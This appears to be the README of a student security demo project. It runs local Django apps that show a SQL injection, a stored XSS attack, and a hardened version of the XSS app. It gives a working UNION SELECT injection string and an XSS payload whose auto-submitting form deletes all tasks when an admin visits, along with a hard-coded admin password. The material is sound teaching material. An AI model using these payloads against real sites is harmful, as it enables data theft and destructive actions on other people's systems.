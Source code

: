 # ICS Mini-project

The ICS project is broken into 3 subparts: sql-injection, XSS, and XSS secure

## sql-injection

This demonstrates a sql-injection attack.

1. navigate to /sql_injection
2. run <code>$ python3 manage.py runserver</code>
3. go [here](http://127.0.0.1:8000/items/search)
4. type this in search query: ' UNION SELECT first_name FROM auth_user WHERE first_name LIKE ' (with quotes)

## XSS

This is a todo app for group projects, where only admin can delete all tasks. It demonstrates how an XSS attac can delete all tasks when the admin logs in.

1. navigate to /todo
2. run <code>$ python3 manage.py runserver</code>
3. go [here](http://127.0.0.1:8000/all)
4. add a few tasks
5. add the following task:
        <pre><code>Malicious Code<form id="myform" action="http://127.0.0.1:8000/deleteall" method="post"></form>
        <script type="text/javascript">
            setTimeout(() => {document.getElementById("myform").submit();}, 5000);
        </script></code></pre>
6. go [here](http://127.0.0.1:8000/admin) and log in with user=admin pass=0348
7. visit [this](http://127.0.0.1:8000/all) after login, and wait for 5 seconds, all tasks will be deleted automatically

## XSS secure

This is secure version of the same todo app. Follow the same steps as above, the attack doesn't work on this.
